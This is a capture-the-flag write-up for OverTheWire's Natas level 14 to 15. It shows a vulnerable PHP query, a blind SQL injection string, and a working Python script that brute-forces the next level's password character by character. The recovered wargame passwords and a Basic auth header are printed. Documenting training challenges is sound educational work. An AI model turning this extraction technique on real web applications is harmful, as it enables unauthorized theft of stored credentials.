 # Natas Level 14 --> Level 15

**Username:** natas15

**Password:** AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

**URL:**      http://natas15.natas.labs.overthewire.org

 
**Solved with my best friend [Wasfy Elbaz](github.com/wasfyelbaz/)**

## Solution
* Click view sourcecode there you can see the query they use to access, there isn't anything special so we can inject simple code to bypass.
```
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
```
* Try enter 'natas16' as username the response will be:
```
This user exists.
```
* So we need to get this username's password to solve this level.
* We can guess the password char by char using LIKE query
```
natas16" AND password LIKE BINARY "{char}%
``` 
* Write python script brute-force requests to get the password consist of 32 chars (like all natas passwords)
```python
import requests
import string

CHARS = list(string.ascii_lowercase + string.ascii_uppercase + "0123456789")

USER_AGENT = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36"

headers = {
    'dnt': '1',
    'upgrade-insecure-requests': '1',
    'user-agent': USER_AGENT,
    'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
    'host': 'natas15.natas.labs.overthewire.org',
    'accept-Encoding': 'gzip, deflate',
    'origin': 'http://natas15.natas.labs.overthewire.org',
    'authorization': 'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==',
    'connection': 'close',
    'referer': 'http://natas15.natas.labs.overthewire.org/',
    'sec-gpc': '1'
}

payload = ""
while len(payload) < 32:
  for char in CHARS:
    print(f"\rCurrent Char: {char} | Payload: {payload}", end="")
    url = f"http://natas15.natas.labs.overthewire.org/index.php?username=natas16%22+and+password+like+binary+%22{payload}{char}%&debug=1"
    response = requests.get(url, headers=headers)
    if "This user exists" in response.content.decode():
      payload += char
      break
```
```bash
┌─[darkknight@dark]─[~]
└──╼ $python3 blind_sql_user_gussing.py 
Current Char: h | Payload: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

```
* You got the password!!

> WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
